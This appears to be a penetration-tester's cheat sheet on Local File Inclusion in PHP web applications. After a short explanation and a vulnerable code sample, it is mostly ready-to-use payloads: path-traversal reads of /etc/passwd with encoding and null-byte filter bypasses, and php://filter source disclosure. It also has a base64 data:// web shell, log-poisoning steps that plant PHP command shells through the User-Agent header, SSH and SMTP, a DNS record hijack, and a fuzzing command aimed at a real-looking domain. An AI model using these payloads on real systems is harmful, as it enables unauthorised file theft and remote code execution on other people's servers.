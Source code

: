 # LFI

## Local File Inclusions (LFI)

{% hint style="info" %}
An attacker can use **Local File Inclusion** (LFI) to trick the web application into exposing or running files on the web server. An LFI attack may lead to information disclosure, remote code execution, or even XSS.

Typically, LFI occurs when an application uses the **path to a file as input**. If the application treats this input as trusted, a local file may be used in the include statement.
{% endhint %}

### Check for LFI

The following is an example of **PHP code that is vulnerable to LFI**.

```php
/**
* Get the filename from a GET input
* Example - http://example.com/?file=filename.php
*/
$file = $_GET['file'];

/**
* Unsafely include the file
* Example - filename.php
*/
include('directory/' . $file);
```

* **GET** parameter in url

{% embed url="https://github.com/kurobeats/fimap" %}
Tool to check LFI
{% endembed %}

### Payloads

```
http://example.com/index.php?page=../../../etc/passwd
http://example.thm.labs/page.php?file=/etc/passwd 

# NULL BYTE
http://example.thm.labs/page.php?file=../../../../../../etc/passwd%00 

# FILTER BYPASS TRICKS
http://example.com/index.php?page=....//....//etc/passwd
http://example.thm.labs/page.php?file=....//....//....//....//etc/passwd 
http://example.com/index.php?page=..///////..////..//////etc/passwd
http://example.com/index.php?page=/%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../etc/passwd

# DOUBLE ENCODING
http://example.com/index.php?page=%252e%252e%252fetc%252fpasswd
http://example.com/index.php?page=%252e%252e%252fetc%252fpasswd%00

# UTF-8 ENCODING
http://example.com/index.php?page=%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd
http://example.com/index.php?page=%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd%00
```

#### FUZZ LFI ENDPOINTS

```bash
wfuzz -c -w list-lfi.txt --hc 404,400 --hw 0 https://metabase.peren.fr/api/geojson?url=file:///FUZZ
```

### PHP Wrapper

* Used to read **.PHP files**. It is not possible to read a PHP file's content via LFI because PHP files get executed and never show the existing code. We can use the PHP filter to display the content of PHP files in other encoding formats such as base64 or ROT13.

**Commands**

```
http://example.com/page.php?file=php://filter/resource=/etc/passwd

http://example.com/page.php?file=php://filter/read=string.rot13/resource=/etc/passwd

http://example.com/page.php?file=php://filter/convert.base64-encode/resource=/etc/passwd

http://example.com/index.php?page=php://filter/read=string.rot13/resource=index.php
http://example.com/index.php?page=php://filter/convert.iconv.utf-8.utf-16/resource=index.php
http://example.com/index.php?page=php://filter/convert.base64-encode/resource=index.php
http://example.com/index.php?page=pHp://FilTer/convert.base64-encode/resource=index.php

http://example.net/?page=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4=
```

## LFI 2 RCE

### /proc/self/environ

> Like a log file :

```
GET vulnerable.php?filename=../../../proc/self/environ HTTP/1.1
User-Agent: <?=phpinfo(); ?>
```

### via SSH

```bash
ssh <?php system($_GET["cmd"]);?>@10.10.10.10
# Then include the SSH log files inside the Web Application :
# http://example.com/index.php?page=/var/log/auth.log&cmd=id
```

### via MAIL

> First send an email using the open SMTP then include the log file located at http://example.com/index.php?page=/var/log/mail.

```bash
root@kali:~# telnet 10.10.10.10. 25
Trying 10.10.10.10....
Connected to 10.10.10.10..
Escape character is '^]'.
220 straylight ESMTP Postfix (Debian/GNU)
helo ok
250 straylight
mail from: mail@example.com
250 2.1.0 Ok
rcpt to: root
250 2.1.5 Ok
data
354 End data with <CR><LF>.<CR><LF>
subject: <?php echo system($_GET["cmd"]); ?>
data2
.
```

> In some cases you can also send the email with the mail command line.

```bash
mail -s "<?php system($_GET['cmd']);?>" www-data@10.10.10.10. < /dev/null
```

### Via DNS

> Check for :&#x20;
>
> ```
> /etc/bind/named.conf
> ```

**Change the DNS record via nsupdate**

```bash
nsupdate
> server $ip_target $port_dns_target
> key $key_algorithm:$name_key $secret
> zone $dns_name
> update add mail.$target_domain 86400 A $ip_host
> send

# start python smtpd server to receive mail
python3 -m smtpd -c DebuggingServer -n $ip_host:25
```
